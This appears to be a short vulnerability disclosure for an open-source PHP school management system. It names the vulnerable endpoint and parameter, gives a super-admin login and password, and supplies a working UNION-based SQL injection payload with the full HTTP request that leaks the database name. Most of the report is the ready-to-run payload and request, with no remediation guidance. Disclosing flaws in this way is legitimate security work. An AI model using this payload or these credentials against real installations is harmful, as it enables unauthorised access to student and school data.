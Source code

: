 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_student_subject.php?index=

Vulnerability location: /school/model/get_student_subject.php?index=,index

[+] Payload: /school/model/get_student_subject.php?index=-1%20union%20select%201,2,3,database(),5,6--+ // Leak place ---> index

Current database name: std_db,length is 6


```sql
GET /school/model/get_student_subject.php?index=-1%20union%20select%201,2,3,database(),5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171971189-98aa5a22-85c7-4a69-947b-c6bc3aff03f1.png)

